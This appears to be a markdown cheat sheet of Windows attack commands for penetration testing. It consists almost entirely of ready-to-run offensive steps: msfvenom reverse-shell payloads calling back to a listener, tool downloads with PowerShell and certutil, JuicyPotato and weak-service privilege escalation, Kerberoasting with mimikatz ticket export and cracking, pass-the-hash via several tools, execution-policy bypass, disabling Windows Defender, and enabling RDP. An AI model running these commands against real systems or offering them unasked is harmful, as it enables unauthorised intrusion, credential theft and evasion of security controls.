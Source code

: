 

# Important Windows Commands


**[+] Create reverse shell using msfvenom**

```
// Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe
// TCP
msfvenom -p  windows/shell/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe
```

**[+] Upload file using Powershell**

```
powershell.exe $ProgressPreference = 'SilentlyContinue'; Invoke-WebRequest http://192.168.50.48/ASREPRoast.ps1 -OutFile C:\users\hitman\ASREPRoast.ps1
```

**[+] Upload file using certutil.exe**

```
certutil.exe -urlcache -f http://192.168.50.48/Rubeus.exe C:\users\hitman\Rubeus.exe
```

**[+] Privilege escalation using juicy potato (Sometimes you need to attach CLSID)**

```
JuicyPotato.exe -l 13373 -p c:\windows\system32\cmd.exe -a "/c c:/users/public/reverse.exe" -t *
```

**[+] Request Ticket (powershell)**

```
Add-Type -AssemblyName System.IdentityModel  

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLService/ufc-db1.us.funcorp.local"  
```

**[+] Export Tickets using mimikatz**

```
mimikatz # kerberos::list /export  
```

**[+] Crack ticket using Tgsrepcrack.py (You can use john too or hashcat)**

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.hitmanalharbi.local~1433-boo.LOCAL.kirbi  
```

**[+] Pass the hash using pth-winexe (Available in Kali Linux)**

```
pth-winexe -U USER%aad3b435b51404eeaad3b435b51404ee:NTLM //IP cmd
```

**[+] Access RDP using pass the hash (xfreerdp tool)**

```
xfreerdp /u:username /pth:NTLM /d:domain /v:IP
```

**[+] Pass the hash using PsExec.py**

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:NTLM sqldevadmin@192.168.50.49
```


**[+] enum SMB shares using smbclient (Smbclient available in Kali Linux)**

```
smbclient -L IP
```

**[+] Bypass Powershell Execution Policy**

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted

or run powershell like this:

powershell.exe -ep bypass
```

**[+] PowerUp.ps1  "Good powershell script for windows privilege escalation"**

```
C:> powershell.exe -nop -exec bypass

PS C:\> Import-Module PowerUp.ps1

PS C:\> Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
```

**[+] Weak service permissions privilege escalation**

```
C:\Users\victim\Desktop>accesschk64 -uwcqv "victim" *

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

RW SNMPTRAP
        SERVICE_ALL_ACCESS

C:\Users\victim\Desktop>sc qc SNMPTRAP

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SNMPTRAP
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\snmptrap.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : SNMP Trap
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\victim\Desktop>sc config SNMPTRAP binpath= "net localgroup administrators victim /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc config SNMPTRAP obj= ".\LocalSystem" password= ""

[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc start SNMPTRAP
```

**[+] Disable windows defender (Need privileges)**

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableRealtimeMonitoring /t REG_DWORD /d 1

powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true
```

**[+] Sharphound command**

```
// EXE version
./SharpHound.exe --CollectionMethod All

// Powershell version
Invoke-BloodHound -CollectionMethod All
```

**[+] Enable RDP, and allow it in the firewall too (Need privileges)**

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

